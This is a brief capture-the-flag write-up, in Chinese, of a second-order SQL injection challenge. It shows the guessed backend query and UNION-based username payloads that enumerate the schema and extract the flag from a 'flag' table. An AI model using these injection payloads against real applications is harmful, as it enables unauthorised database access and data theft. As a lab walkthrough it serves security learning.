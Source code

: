 ![](<./img/Pasted image 20230209095656.png>)

```
/?action=login
```

![](<./img/Pasted image 20230209095849.png>)

```
/?action=reg
```

![](<./img/Pasted image 20230209100007.png>)

```
/?action=index
```

![](<./img/Pasted image 20230209100928.png>)

题目明示是二次注入，而唯一的回显点是`info`

对`info`的注入没有什么收获，估计在写入的时候做了转义，而又没有其他情况是需要`info`拼接入查询的

因而注入点大底只可能是`username`了

推测对`info`的查询实现如下

```sql
SELECT INFO FROM USERS WHERE USERNAME = '$username';
```

尝试对用户名进行联合注入

```
username: ' union select database()#
password: 
```

![](<./img/Pasted image 20230209102931.png>)

```
username: ' union select group_concat(table_name) from information_schema.tables where table_schema = 'ctftraining'#
password: 
```

```
flag,news,users
```

```
username: ' union select group_concat(column_name) from information_schema.columns where table_name = 'flag'#
password: 
```

```
flag
```

```
username: ' union select group_concat(flag) from flag#
password: 
```

```
flag{0ee8b261-5b74-4931-8c2e-aa9cf771b6d5}
```

#Web #SQL注入 #二次注入 